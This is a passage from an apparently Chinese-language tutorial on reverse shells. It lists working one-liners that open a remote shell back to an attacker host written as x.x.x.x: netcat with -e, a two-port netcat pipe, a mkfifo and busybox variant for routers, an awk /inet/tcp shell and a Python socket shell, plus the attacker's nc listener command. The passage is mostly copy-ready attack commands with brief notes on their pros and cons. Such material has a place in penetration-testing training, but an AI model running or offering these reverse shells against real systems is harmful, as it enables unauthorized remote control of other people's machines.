 ```bash
nc x.x.x.x port -e /bin/bash
```

>优点：直接反弹，没有多余的符号。
>缺点：部分系统安装的有些是不提供反向链接的版本（没有-e参数），此时需要自己上传编译后的二进制版本。

若nc无反向链接的版本，则有如下解决方式：

**方法一：**

使用管道符：

```bash
nc x.x.x.x port1 | /bin/bash | nc x.x.x.x port2
```

命令原理同上述telnet相关管道符处的用法，且测试也是相同，不在赘述。

**方法二：**

针对某些mips架构的路由器或有Busybox终端的系统：

```bash
rm /tmp/fifo; mkfifo /tmp/fifo | /bin/sh 0</tmp/fifo | nc x.x.x.x port 1>/tmp/fifo
```

含有Busybox的话，则将相关命令替换为`/xxx/busybox nc`来进行nc命令的调用。该方法的命令用法可参考Telnet的用法。

### 4、awk反弹

攻击机监听：

```bash
nc -lvvp port
```

目标机执行：

```bash
awk 'BEGIN{s="/inet/tcp/0/x.x.x.x/port";while(1){do{s|&getline c;if(c){while((c|&getline)>0)print $0|&s;close(c)}}while(c!="exit");close(s)}}'
```

此时成功获取到Shell：
![image-20210805194616297](https://{{site.PicturesLinks_Domain}}/images/2021/08/05/20210805194623.png)

### 5、常见脚本反弹

下述脚本均需要现在攻击机上开启监听：`nc -lvvp port`，将脚本中`x.x.x.x`替换为对应的攻击机IP，`port`替换为实际使用的端口。

#### 1、Python

**IPv4协议如下：**

第一种：

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

